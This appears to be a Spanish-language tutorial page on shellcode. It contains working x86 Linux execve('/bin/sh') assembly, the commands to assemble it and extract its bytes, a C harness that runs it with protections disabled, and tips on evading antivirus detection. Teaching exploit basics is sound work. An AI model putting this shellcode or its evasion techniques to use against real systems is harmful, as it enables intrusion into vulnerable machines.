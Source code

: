 # Shellcodes

### 1. ¿Qué es un Shellcode?
Un **shellcode** es un fragmento de código en lenguaje ensamblador diseñado para ejecutarse dentro de un proceso objetivo. 
Se usa comúnmente en **exploits** para tomar el control de un sistema vulnerable.

Los shellcodes pueden ejecutarse en memoria sin necesidad de archivos, lo que los hace ideales para ataques como **buffer overflows** o **inyecciones de código**.

### 2. Tipos de Shellcodes
Existen diferentes tipos de shellcodes según el contexto de ataque:

- **Shellcodes de usuario**: Se ejecutan dentro de procesos de usuario sin privilegios elevados.
- **Shellcodes de kernel**: Se ejecutan en el espacio de kernel, lo que permite un control total del sistema.
- **Shellcodes conectados a red**:
  - **Reverse shell**: Se conecta a un servidor remoto y permite al atacante tomar el control.
  - **Bind shell**: Abre un puerto en la máquina víctima para que el atacante se conecte.

### 3. Características de un Shellcode
Un shellcode efectivo debe cumplir con los siguientes criterios:

- **Pequeño**: Minimiza el tamaño para encajar en buffers pequeños.
- **Autocontenido**: No depende de librerías externas.
- **Evasivo**: Evita caracteres nulos (`\x00`) y detección por antivirus.
- **Portable**: Funciona en múltiples versiones del sistema operativo objetivo.

### 4. Creación de un Shellcode
Para crear un shellcode, se usa ensamblador y luego se convierte en una cadena de bytes. Por ejemplo, un shellcode en **x86 Linux** para ejecutar `/bin/sh`:

```assembly
section .text
    global _start

_start:
    xor eax, eax         ; Limpia eax
    push eax             ; NULL terminator
    push 0x68732f2f      ; "//sh"
    push 0x6e69622f      ; "/bin"
    mov ebx, esp         ; Apunta ebx a "/bin//sh"
    xor ecx, ecx         ; argv = NULL
    xor edx, edx         ; envp = NULL
    mov al, 0xb          ; syscall execve
    int 0x80             ; Llamada al kernel
```
### 5. Conversión de Shellcode a Cadena de Bytes

Para convertir un shellcode en ensamblador a una cadena de bytes.

Primero ensamblamos el código:

```bash
nasm -f elf32 shellcode.asm -o shellcode.o
```

Luego, lo vinculamos y obtenemos el shellcode en formato hexadecimal con `objdump`:

```bash
ld -m elf_i386 -o shellcode shellcode.o
objdump -d shellcode | grep '[0-9a-f]:' | grep -o '\b[0-9a-f]\{2\}\b' | tr -d '\n' | sed 's/\(..\)/\\x\1/g'
```

Este comando genera una cadena de bytes que se puede inyectar en un programa.

### 6. Uso del Shellcode en C

Podemos probar el shellcode en un programa en C:

```c
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";

int main() {
    printf("Ejecutando shellcode...\n");
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```

Compilamos y ejecutamos:

```bash
gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcodec
./shellcodec
```

Si se ejecuta correctamente, abrirá una shell interactiva.

### 7. Evasión de Detección

Para evitar detecciones, se pueden aplicar técnicas como:

- **Codificación XOR**: Para evitar bytes nulos y firmas conocidas.
- **Obfuscación**: Alterar el orden de instrucciones sin cambiar la funcionalidad.
- **Cifrado Polimórfico**: Utilizar decodificadores automáticos.
